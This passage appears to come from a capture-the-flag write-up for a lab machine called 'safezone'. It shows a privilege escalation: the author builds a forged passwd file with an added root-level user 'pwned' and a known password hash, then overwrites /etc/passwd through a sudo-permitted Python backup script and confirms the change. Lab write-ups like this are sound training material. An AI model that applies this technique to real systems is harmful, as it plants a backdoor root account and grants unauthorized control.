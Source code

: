 - Create a malicious `passwd` file

```
yash@safezone:/opt$ cd /dev/shm
yash@safezone:/dev/shm$ nano passwd 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
yash:x:1000:1000:yash,,,:/home/yash:/bin/bash
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
files:x:1001:1001:,,,:/home/files:/bin/bash
pwned:$1$TBtvdgJG$guxWNCxXjIE4ATrmP2pIE1:0:0:root:/root:/bin/bash
```

In the last line, we added a new user called `pwned`, with password `password`, and root privilege.

- Copy our malicious `passwd` file to `/etc/passwd`:

```
yash@safezone:/dev/shm$ sudo /usr/bin/python3 /root/bk.py
Enter filename: /dev/shm/passwd
Enter destination: /etc/passwd
Enter Password: anything
```

- Verify it works:

```
yash@safezone:/dev/shm$ tail -n 1 /etc/passwd
pwned:$1$TBtvdgJG$guxWNCxXjIE4ATrmP2pIE1:0:0:root:/root:/bin/bash
```
